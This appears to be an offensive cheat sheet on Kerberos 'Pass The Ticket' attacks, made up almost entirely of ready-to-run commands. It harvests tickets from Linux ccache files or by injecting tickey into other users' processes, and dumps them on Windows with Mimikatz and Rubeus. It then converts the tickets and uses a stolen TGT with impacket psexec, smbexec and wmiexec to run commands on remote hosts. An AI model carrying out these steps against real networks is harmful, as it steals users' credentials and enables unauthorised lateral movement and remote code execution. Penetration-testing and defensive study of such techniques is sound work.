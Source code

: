 

## Pass The Ticket (PTT)

### Harvest tickets from Linux

Check type and location of tickets:

```shell
grep default_ccache_name /etc/krb5.conf
```
If none return, default is FILE:/tmp/krb5cc_%{uid}.

In case of file tickets, you can copy-paste (if you have permissions) for use them.

In case of being *KEYRING* tickets, you can use [tickey](https://github.com/TarlogicSecurity/tickey) to get them:

```shell
# To dump current user tickets, if root, try to dump them all by injecting in other user processes
# to inject, copy tickey in a reachable folder by all users
cp tickey /tmp/tickey
/tmp/tickey -i
```

### Harvest tickets from Windows

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):
```shell
mimikatz # sekurlsa::tickets /export
```

With [Rubeus](https://github.com/GhostPack/Rubeus) in Powershell:
```shell
.\Rubeus dump

# After dump with Rubeus tickets in base64, to write the in a file
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>"))
```


To convert tickets between Linux/Windows format with [ticket_converter.py](https://github.com/Zer1t0/ticket_converter):

```
python ticket_converter.py ticket.kirbi ticket.ccache
python ticket_converter.py ticket.ccache ticket.kirbi
```

### Using ticket in Linux:

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:
```shell
# Set the ticket for impacket use
export KRB5CCNAME=<TGT_ccache_file_path>

# Execute remote commands with any of the following by using the TGT
impacket-psexec <domain_name>/<user_name>@<remote_hostname> -k -no-pass
impacket-smbexec <domain_name>/<user_name>@<remote_hostname> -k -no-pass
impacket-wmiexec <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
